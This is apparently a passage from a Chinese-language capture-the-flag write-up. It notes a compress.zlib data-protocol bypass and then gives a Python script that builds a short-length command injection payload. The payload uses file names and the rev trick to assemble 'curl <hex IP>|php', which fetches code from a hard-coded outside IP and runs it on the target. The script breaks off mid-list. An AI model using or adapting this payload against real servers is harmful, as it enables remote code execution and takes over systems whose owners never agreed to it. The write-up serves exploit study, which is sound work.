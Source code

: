 


用` compress.zlib://data:@127.0.0.1/plain;base64,xxx `来代替data协议



```python

import random,base64,requests
import time
shell_ip = '39.108.164.219'
 

 
# 将shell_IP转换成十六进制
ip = '0x' + ''.join([str(hex(int(i))[2:].zfill(2))
                     for i in shell_ip.split('.')])
 
# payload某些位置的可选字符
pos0 = 'f'
pos1 = 'k'
pos2 = 'g'  # 随意选择字符
 
payload = [
    '>dir',
    # 创建名为 dir 的文件
 
    '>%s\\>' % pos0,
    # 假设pos0选择 f , 创建名为 f> 的文件
 
    '>%st-' % pos1,
    # 假设pos1选择 k , 创建名为 kt- 的文件,必须加个pos1，
    # 因为alphabetical序中t>s
 
    '>sl',
    # 创建名为 >sl 的文件；到此处有四个文件，
    # ls 的结果会是：dir f> kt- sl
 
    '*>v',
    # 前文提到， * 相当于 `ls` ，那么这条命令等价于 `dir f> kt- sl`>v ，
    #  前面提到dir是不换行的，所以这时会创建文件 v 并写入 f> kt- sl
    # 非常奇妙，这里的文件名是 v ，只能是v ，没有可选字符
 
    '>rev',
    # 创建名为 rev 的文件，这时当前目录下 ls 的结果是： dir f> kt- rev sl v
 
    '*v>%s' % pos2,
    # 魔法发生在这里： *v 相当于 rev v ，* 看作通配符。前文也提过了，体会一下。
    # 这时pos2文件，也就是 g 文件内容是文件v内容的反转： ls -tk > f
 
    # 续行分割 curl 0x11223344|php 并逆序写入
    '>p',
    '>ph\\',
    '>\\|\\',
    '>%s\\' % ip[8:10],
    '>%s\\' % ip[6:8],
    '>%s\\' % ip[4:6],
    '>%s\\' % ip[2:4],
    '>%s\\' % ip[0:2],
    '>\\ \\',
    '>rl\\',
    '>cu\\',
 
    'sh ' + pos2,
    'sh ' + pos0,
```